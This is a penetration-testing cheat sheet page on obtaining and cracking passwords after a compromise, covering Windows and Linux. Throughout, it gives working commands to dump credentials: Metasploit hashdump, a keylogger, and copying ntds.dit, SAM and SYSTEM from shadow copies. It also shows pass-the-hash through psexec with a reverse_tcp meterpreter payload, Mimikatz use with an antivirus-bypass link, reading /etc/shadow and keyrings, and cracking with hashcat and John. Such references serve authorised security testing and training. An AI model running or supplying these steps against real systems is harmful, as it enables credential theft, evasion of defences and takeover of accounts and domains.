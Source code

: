 ```yaml
---
title: Obtaining and Cracking Passwords
category: Post-Exploitation
order: 6
---
```


> **Windows** 

Metasploit Key logger for passwords | keyscan_start, keyscan_stop, keyscan_dump
PwDump | Pwdump drops files to disk and caught by AV <br> http://www.tarasco.org/security/pwdump_7/
Fgdump | fgdump drops files to disk and caught by AV <br> Source available to evade AV <br> http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version
Other PWDump Versions | http://www.openwall.com/passwords/windows-pwdump
[Windows Credential Editor (WCE)](https://www.ampliasecurity.com/research/windows-credentials-editor/) | wce64.exe -w

**[Mimikatz](https://github.com/gentilkiwi/mimikatz)**
1. Determine architecture (32 vs 64 bit)
2. Determine if you have admin privs 
3. [AV Bypass](http://www.blackhillsinfosec.com/?p=5555)

References:
* [Offensive Security](https://www.offensive-security.com/metasploit-unleashed/Mimikatz/)
* [Golden Ticket] (https://www.christophertruncer.com/golden-ticket-generation/) 
* [Mimikatz to dump passwords](http://blog.opensecurityresearch.com/2012/06/using-mimikatz-to-dump-passwords.html) 
* [Domain Passwords](http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html)

**Metasploit hashdump**

{% highlight bash %}
meterpreter >hashdump (from memory)
meterpreter > run hashdump (hash and syskey from registry)
{% endhighlight %}

**Volume Shadow Copy Service (domain controller)**

{% highlight bash %}
cscript vssown.vbs /status or /start or /create /c
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit 
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak

Analyze with ntds Dump Hash
{% endhighlight %}

Required Tools:
* [vssown vbs](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs)  
* [vssown py](https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py)
* [ntds Dump Hash](http://csabarta.com/downloads/ntds_dump_hash.zip)

>**Pass the Hash**

***May require RID 500 account due to patch***
 
Windows credential editor | www.ampliasecurity.com/research
Metasploit psexec| <code> use exploit/windows/smb/psexec <br> set RHOST [victim] <br> set PAYLOAD windows/meterpreter/reverse_tcp <br> 	set SMBUser [admin_name]  <br> set SMBPass [admin_hash] <br> exploit </code> 
Nmap nse smb | tbd

> **Linux**

Users and Passwords:

* /etc/passwd and /etc/shadow

Network or WiFi Passwords:

* /etc/NetworkManager/system-connections

Gnome Keyring:

* ~/.gnome/keyrings

> **Password Cracking Tools**

**GPU**

* MD5 Cracker: http://bvernoux.free.fr/md5/index.php
* oclHashcat  and Hashcat (same project)
* CUDA-multiforcer
* aircrack-ng-CUDA
* pyrit (WPA and WPA w/ CoWPAtty)

**CPU**

* John
* Cain (note: wordlist is located at C:\Program file\Cain\Wordlist\Wordlist.txt)


> **John the Ripper**

Crack Password Bruteforce | <code> john hash.txt </code>
View Cracked Passwords | <code> ./john --show [password file] </code>
Pause a session | CTRL-C
Kill a session | <code> CTRL-C twice quickly </code>
Restore a session | <code> ./john --restore </code>
Current Status | any key
Customize Session based on password policy (e.g., length) | edit john.conf (Linux) and john.ini (windows)
Combine Shadow and passwd | <code> ./unshadow passwd_copy shadow_copy > combined.txt </code>
Password length Customization | <code> MinLen and MaxLen <code>
Rule Set | [Korelogic](http://contest-2010.korelogic.com/rules.html)

***Useful Links***

* [Getting Started](https://www.tunnelsup.com/getting-started-cracking-password-hashes/)

> **Hashcat**

Usage:
{% highlight bash %}

hashcat -a 0 -m 1000 [NTLMHASHES] wordlists/rockyou.txt -r hob064.rule -o cracked.txt

#Finding kind of hash
hashcat --help | grep NTLM

#Linux
#1. Find Hash Type
grep -A 18 ENCRYPT_METHOD /etc/login.defs
or use the /etc/shadow:
$1$: it uses MD5.
$5$: it uses SHA-256.
$6$: it uses SHA-512.
$2a$: it uses blowfish, not supported everywhere.
Otherwise it uses DES.

#2. Prepare hash for hashcat
sudo cat /etc/shadow | grep '\$' | cut -d ':' -f2

#3. Crack (MD5 example)
hashcat64.exe -m 500 hashes.lst 10000.txt -r OneRuleToRuleThemAll.rule -o cracked.txt


#Finding kind of hash
hashcat --help | grep NTLM
{% endhighlight %}
{% endhighlight %}

Rule Sets:

* [hob0Rules](https://github.com/praetorian-inc/Hob0Rules)
* [onerule](https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule)

Useful Links:

* [SANS - Breaking Various Hashes](https://pen-testing.sans.org/blog/2017/10/04/how-to-guide-cracking-into-piles-of-files)
* [/etc/shadow](https://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-passwords-part-3-using-hashcat-0156543/)

>**Cain**

Word List location | C:\Program file\Cain\Wordlist\Wordlist.txt
Password Dictionary restarts at last point | Right-Click the dictionary-> select Reset initial file position

> **Password Lists**

Example Hashes | https://hashcat.net/wiki/doku.php?id=example_hashes
Password Lists in Kali | /usr/share/wordlists/
Danielmiessler | https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials
Tailor Password list to policy | <code> > pw-inspector [-i FILE] [-o FILE] [-m MINLEN] [-M MAXLEN] [-c MINSETS] -l -u -n -p –s  <br> > pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 1 </code>
Combine Word Lists | <code> > cat wordlist.txt <wordlist2.txt....> | sort | uniq > dictionary.txt </code>
Word List from Website | <code> > mkdir /tmp/source <br> > cd /tmp/source <br> > wget -r -l [Page Depth] [target_website] <br> > cd .. <br> grep -h -r """" source | tr '[:space:]' '\n' | sort | uniq >wordlist.lst <br> > grep -v '<' wordlist.lst > newlist.lst </code>
Password Lists | https://downloads.skullsecurity.org/passwords/
Weakpass | https://weakpass.com/wordlist/online
Crackstation | https://crackstation.net/
Hashes.org | https://hashes.org/search.php
Practice Hashes | http://contest-2012.korelogic.com/


> **CISCO Group Password**

From Kali:<br>
<code>cisco-decrypt (GroupPassword)</code>


> **Mimikatz from Memory Image**

<code> vol.py -f system_image.vmem --profile=Win7SP1x64 mimikatz </code>


> **Rainbow Tables**

* http://project-rainbowcrack.com
* http://souceforce.net/projects/ophcrack
* http://lasecwww.epfl.ch/~oechslin/projects/ophcrack



